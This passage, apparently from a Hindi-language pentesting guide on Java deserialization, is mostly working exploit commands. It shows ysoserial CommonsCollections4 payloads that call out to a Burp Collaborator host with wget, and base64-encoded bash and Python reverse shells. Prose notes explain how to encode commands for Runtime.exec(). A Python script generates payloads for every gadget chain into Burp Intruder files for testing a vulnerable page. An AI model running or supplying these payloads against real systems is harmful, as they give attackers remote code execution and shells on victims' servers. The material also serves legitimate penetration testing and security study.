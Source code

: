 ```bash
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "wget ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net"
# Reverse shell
## Encoded: bash -i >& /dev/tcp/127.0.0.1/4444 0>&1
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}" | base64 -w0
## Encoded: export RHOST="127.0.0.1";export RPORT=12345;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "bash -c {echo,ZXhwb3J0IFJIT1NUPSIxMjcuMC4wLjEiO2V4cG9ydCBSUE9SVD0xMjM0NTtweXRob24gLWMgJ2ltcG9ydCBzeXMsc29ja2V0LG9zLHB0eTtzPXNvY2tldC5zb2NrZXQoKTtzLmNvbm5lY3QoKG9zLmdldGVudigiUkhPU1QiKSxpbnQob3MuZ2V0ZW52KCJSUE9SVCIpKSkpO1tvcy5kdXAyKHMuZmlsZW5vKCksZmQpIGZvciBmZCBpbiAoMCwxLDIpXTtwdHkuc3Bhd24oIi9iaW4vc2giKSc=}|{base64,-d}|{bash,-i}"

# Base64 encode payload in base64
base64 -w0 payload
```
जब **java.lang.Runtime.exec()** के लिए एक payload बनाते हैं, तो आप **विशेष वर्ण** जैसे ">" या "|" का उपयोग नहीं कर सकते हैं ताकि निष्पादन का आउटपुट पुनर्निर्देशित किया जा सके, "$()" का उपयोग करके आदेश निष्पादित कर सकें या यहां तक कि **कमांड के लिए तर्क** को **स्पेस** द्वारा अलग कर सकें (आप `echo -n "hello world"` कर सकते हैं लेकिन आप `python2 -c 'print "Hello world"'` नहीं कर सकते)। payload को सही तरीके से एन्कोड करने के लिए आप [इस वेबपेज](http://www.jackson-t.ca/runtime-exec-payloads.html) का उपयोग कर सकते हैं।

Windows और Linux के लिए **सभी संभावित कोड निष्पादन** payloads बनाने के लिए अगले स्क्रिप्ट का उपयोग करने के लिए स्वतंत्र महसूस करें और फिर उन्हें कमजोर वेब पृष्ठ पर परीक्षण करें:
```python
import os
import base64

# You may need to update the payloads
payloads = ['BeanShell1', 'Clojure', 'CommonsBeanutils1', 'CommonsCollections1', 'CommonsCollections2', 'CommonsCollections3', 'CommonsCollections4', 'CommonsCollections5', 'CommonsCollections6', 'CommonsCollections7', 'Groovy1', 'Hibernate1', 'Hibernate2', 'JBossInterceptors1', 'JRMPClient', 'JSON1', 'JavassistWeld1', 'Jdk7u21', 'MozillaRhino1', 'MozillaRhino2', 'Myfaces1', 'Myfaces2', 'ROME', 'Spring1', 'Spring2', 'Vaadin1', 'Wicket1']
def generate(name, cmd):
for payload in payloads:
final = cmd.replace('REPLACE', payload)
print 'Generating ' + payload + ' for ' + name + '...'
command = os.popen('java -jar ysoserial.jar ' + payload + ' "' + final + '"')
result = command.read()
command.close()
encoded = base64.b64encode(result)
if encoded != "":
open(name + '_intruder.txt', 'a').write(encoded + '\n')

generate('Windows', 'ping -n 1 win.REPLACE.server.local')
generate('Linux', 'ping -c 1 nix.REPLACE.server.local')
```
#### serialkillerbypassgadgets
